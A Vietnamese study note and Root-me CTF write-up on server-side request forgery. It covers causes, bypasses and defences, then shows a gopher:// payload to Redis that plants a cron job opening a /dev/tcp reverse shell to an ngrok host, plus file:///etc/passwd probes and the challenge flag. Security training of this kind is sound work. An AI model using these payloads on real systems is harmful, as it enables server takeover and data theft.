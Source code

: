 ```
+ Tìm hiểu về SSRF(Khái niệm, nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Giải các bài ssrf trên rootme.
```
# SSRF (Server Side Request Forgery)
## Khái niệm
SSRF là cuộc tấn công yêu cầu giả từ máy chủ cho phép kẻ tấn công thay đổi tham số yêu cầu từ đó có thể kiểm soát được yêu cầu của máy chủ, khi đó kẻ tấn công sẽ khiến máy chủ gửi yêu cầu đến 1 máy chủ khác hoặc chính nó nhằm mục đích xấu.
## Nguyên nhân
- Thiếu kiểm soát đầu vào: Khi máy chủ lấy tài nguyên từ tham số được kiểm soát người dùng mà không có kiểm tra hay xác thực thì kẻ tấn công có thể sử dụng nó để thực hiện yêu cầu.
- Sử dụng máy chủ sử dụng được các protocol không cần thiết (gopher://, dict://,...) và mở 1 số port có thể khai thác(redis, SMB,..)
- Sử dụng IP nội bộ: Khi ứng dụng web cho phép sử dụng IP nội bộ, kẻ tấn công từ đó có thể yêu cầu truy cập mà không cần xác thực
## Tác hại + 1 số cách bypass
### Tác hại
- Kẻ tấn công có thể truy cập vào các dữ liệu nhạy cảm trên máy chủ cũng như trên cục bộ, từ đó ăn cắp thông tin quan trọng của người dùng,...
- Vượt qua các lớp bảo mật, truy cập vào mạng cục bộ từ đó dẫn đến các cuộc tấn công khác nghiêm trọng hơn như RCE,...

### 1 số cách bypass
- Trong cuộc tấn công vào chính máy chủ:
  - Sử dụng IP thay thế `127.0.0.1`, `localhost` như: `2130706433` (dạng số nguyên), `127.0.1`, `127.1`, `017700000001`(dạng octal),...
  - Obfuscating các chuỗi bị filter như URL enconde,...
- Open redirection: Khi ứng dụng web redirect, quan soát các tham số trên URL từ đó có thể kiểm soát được.
- URL parsing: 
  - Sử dụng `@` để đưa phần phía trước thành credential 
  - Sử dụng `#` (fragment) để tạo ra tham số mới mà từ đó máy chủ đọc được và truy cập được nó.

- Encode, double encode,...
- Sử dụng các protocols:
  - `file://`: `file:///etc/passwd`
  - `dict://`:`dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>` => `ssrf.php?url=dict://attacker:11111/`
  - `gopher://`: `gopher://<server>:8080/_GET / HTTP/1.0%0A%0A`
  - ...
- Sử dụng tools:
  - <a href="https://github.com/swisskyrepo/SSRFmap" >SSRFMap</a> (phát hiện và khai thác SSRF)
  - <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a> (tạo payload khai thác MySQL, Redis,...)
 
Tham khảo: <a href="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" >Hacktricks</a>
## Phòng chống
- Kiểm tra xác thực đầu vào: kiểm tra giới hạn phạm vi tham số được đưa vào URL ví dụ như giới hạn các địa chỉ IP có thể yêu cầu đến máy chủ...
- Sử dụng whitelist: chỉ định các URL hay các protocols, wrapper hợp lệ mà ứng dụng có thể kiểm soát được.
- Giới hạn truy cập máy chủ cục bộ, sử dụng cấu hình máy chủ hợp lý.
- Sử dụng tường lửa, thư viện bảo mật và thường xuyên cập nhật chúng.

# Root-me
## Server Side Request Forgery
Link: https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery

![image](https://user-images.githubusercontent.com/92881216/229118568-98447fe1-187c-47b2-8e71-deb5e1044c88.png)

Nhìn sơ qua thì web có 1 input url:

![image](https://user-images.githubusercontent.com/92881216/229118790-585c2ee8-144d-4c5f-b177-42feabf035b8.png)

Nhập thử với `https://www.google.com/` thì :

![image](https://user-images.githubusercontent.com/92881216/229119047-c4c6829d-33c3-4638-98b9-3e7b38490972.png)

Như vậy có thể web dùng curl để crawl lại web được nhập từ url. Tiếp tục thử với `file:///etc/passwd`:

![image](https://user-images.githubusercontent.com/92881216/229119398-f4062355-78d3-415b-b356-d9c87e3693ea.png)

Như vậy web có vẻ không filter gì, nhưng trong `/etc/passwd` cũng không có gì, tiếp tục thử với `http://localhost`

![image](https://user-images.githubusercontent.com/92881216/229119635-33516819-24a3-4445-9434-936e3f199173.png)

Như vậy nó có thể yêu cầu đến chính server nó. Mặt khác, SSRF có thể khai thác qua các cổng mở khác có thể dấn đến RCE, vì vậy dùng burp suite để test toàn bộ cổng với payload: `http://localhost:x` với x từ 1 -> 65535 và nhận thấy cổng `6379` bị Timeout.

Như vậy cổng 6379 được mở, đây là cổng mặc định của `redis`.<br>
> Redis 6379 là cổng mặc định mà Redis nghe các kết nối. Nó là một kho lưu trữ cấu trúc dữ liệu trong bộ nhớ phổ biến được sử dụng làm cơ sở dữ liệu, bộ đệm và trình môi giới tin nhắn. Đây là một cơ sở dữ liệu nhanh, có thể mở rộng và đáng tin cậy được sử dụng bởi nhiều trang web và ứng dụng phổ biến.

Lanh quanh 1 lúc trên mạng tìm được tool <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a>. Đây là tool tạo payload thông qua protocol `gopher` dùng để khai thác các dịch vụ như: mysql, redis, smtp,...

Sau 1 hồi tìm hiểu thì đây là cách khai thác:
- Đầu tiên dùng `ngrok` với command `ngrok tcp 1234` để tạo ra 1 tunel từ máy đến internet qua cổng `1234` (Đây là cổng để netcat nghe reverse shell) : 

![image](https://user-images.githubusercontent.com/92881216/229144528-7a366edf-ccc9-4585-98a2-053ae2e3454a.png)

- Tiếp theo, dùng `Gopherus` tạo payload reverse shell với ip vừa tạo từ `ngrok`:

![image](https://user-images.githubusercontent.com/92881216/229144810-3b91ba85-d2af-450a-a770-786230ee6098.png)

Tuy nhiên mặc định tool tạo ra có cổng `1234` nên cần đổi nó sang cổng đã tạo ở `ngrok` (ở đây là: `17025`)

Payload khi đó là:
```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/17025%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
- Bây giờ chỉ việc dùng `nc -lvp 1234` rồi gửi payload thôi...

Kết quả:

![image](https://user-images.githubusercontent.com/92881216/229144082-ebaca7a9-c608-4595-aa4e-78d2be02f7b6.png)

> `SSRF_PwNiNg_v1@_GoPh3r_1s_$o_c00l!`

> passwd: `2f798cab4f3c10fd05e7101d365ad60f`


